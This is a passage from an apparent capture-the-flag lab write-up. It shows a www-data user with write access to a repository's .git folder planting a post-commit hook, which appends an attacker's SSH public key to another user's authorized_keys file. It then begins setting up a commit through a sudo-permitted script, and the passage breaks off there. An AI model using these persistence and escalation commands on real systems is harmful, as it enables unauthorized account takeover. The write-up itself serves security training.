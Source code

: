 
www-data has read, write, and execute. There’s no where else in `image` that
www-data can write:

    
    
    www-data@encoding:~/image$ find . -path ./.git -prune -o -writable -print
    www-data@encoding:~/image$ 
    

### Execution

#### Strategy

With write access to the `.git` folder, I have access to mess with a lot of
configuration for the repo. With the `sudo` configuration, I can add and
commit files to the repo. There are probably many ways to get execution from
this setup.

One way is to use a post-commit hook, which is a script that runs when files
are committed. To commit, I’ll need modified files. Typically files are only
added to the repo from within the directory containing the `.git` directory
(and any subfolders). I’ll modify git to allow files from other locations, and
then trigger the commit using the script.

#### Add Hook

This `echo` line pipped into `tee` will write a `bash` script to
`.git/hooks/post-commit`:

    
    
    www-data@encoding:~/image$ echo -e 'mkdir -p /home/svc/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /home/svc/.ssh/authorized_keys\nchmod 600 /home/svc/.ssh/authorized_keys' | tee .git/hooks/post-commit        
    mkdir -p /home/svc/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /home/svc/.ssh/authorized_keys
    chmod 600 /home/svc/.ssh/authorized_keys
    www-data@encoding:~/image$ chmod +x .git/hooks/post-commit
    

I’ll also set it executable. This script writes a public SSH key into svc’s
`authorized_keys` file.

#### Make Changes

In order to commit, I’ll need to have some changes in the repo. Changes in the
`.git` folder do not count, as that’s metadata about the repo.

    
    
    www-data@encoding:~/image$ git status
    On branch master
    nothing to commit, working tree clean
    

The `--work-tree` argument allows me to specify a directory to consider part
of the repo. I’ll add `/etc/hostname`:
